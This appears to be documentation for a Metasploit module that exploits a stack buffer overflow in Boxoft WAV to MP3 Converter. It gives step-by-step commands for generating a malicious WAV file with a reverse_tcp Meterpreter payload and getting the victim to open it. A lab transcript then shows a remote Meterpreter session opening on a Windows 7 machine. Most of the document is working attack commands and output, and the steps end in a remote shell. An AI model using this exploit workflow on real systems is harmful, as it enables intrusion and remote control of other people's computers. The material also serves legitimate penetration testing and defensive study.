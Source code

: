 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Boxoft WAV to MP3 Converter v1.0-v1.1. 

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/multi/handler]`
   4.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   5.  Do: `set LHOST [IP]`
   6.  Do: `run`
   7.  Do: `use [exploit/windows/fileformat/boxoft_wav_to_mp3]`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   10. Do: `run`
   11. Copy the generated file to the target machine
   12. Open Boxoft WAV to MP3 Converter
   13. Select `Next` at the bottom
   14. Select `Add`
   15. Browse to the file and select it
   16. Click `Convert to MP3`

   You should get a shell.

## Options

  **FILENAME**

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Windows 7 x86


  Run Exploit 

  ```
  msf5 > use exploit/windows/fileformat/boxoft_wav_to_mp3 
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > run

  [+] music.wav stored at /Users/space/.msf4/local/music.wav

  ```
  Set up Handler

  ```
  msf5 > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.138
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.138:49178) at 2018-06-29 14:41:11 -0500

  meterpreter > sysinfo
  Computer        : WIN7-LAB
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows

  ```
